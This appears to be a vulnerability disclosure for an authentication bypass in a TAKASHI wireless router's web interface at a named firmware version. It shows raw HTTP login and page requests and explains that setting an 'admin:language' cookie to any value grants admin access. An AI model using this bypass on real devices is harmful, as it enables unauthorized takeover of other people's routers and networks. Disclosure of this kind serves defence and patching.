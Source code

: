 #TAKASHI Wireless Instant Router And Repeater Web Application Authentication Bypass
Software version 	    V5.07.38_AAL03
Hardware version 	    V3.0 

This vulnerability is related to how the web application handles sessions for authenticated users. The issue arises due to improper session management, allowing unauthorized users to gain admin-level access.

#Below You Will See A Request Comparison

To understand how this vulnerability works, let's compare an unauthenticated request to an authenticated request.

**An unauthenticated request looks like this:**

POST /LoginCheck HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: `http://192.168.2.1/login.asp`
Content-Type: application/x-www-form-urlencoded
Content-Length: 46
Origin: `http://192.168.2.1`
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Cookie: language=en
Upgrade-Insecure-Requests: 1
Priority: u=0, i

Username=admin&checkEn=0&Password=whatsthepassword

**When the user is authenticated, the request looks like this:**

GET /wireless_basic.asp HTTP/1.1
Host: `192.168.2.1`
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: `http://192.168.2.1/advance.asp`
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Cookie: language=en; admin:language=en
Upgrade-Insecure-Requests: 1
Priority: u=4


Key Difference

The key difference between the two requests is the presence of the following cookie:

admin:language=en

The Vulnerability

This vulnerability is based on the way the application validates session data. By manipulating the admin:language cookie, an unauthenticated user can gain access to authenticated pages.
Exploit Mechanics

To exploit this vulnerability, all an attacker needs to do is set the cookie admin:language with any arbitrary value. The application will trust this cookie and treat the user as an authenticated admin.

admin:language=<any_value>

Where <any_value> can be any string,text or numbers. As long as the cookie is given that name, the application will behave as if the user is authenticated.
Conclusion

This vulnerability shows the importance of proper session management.
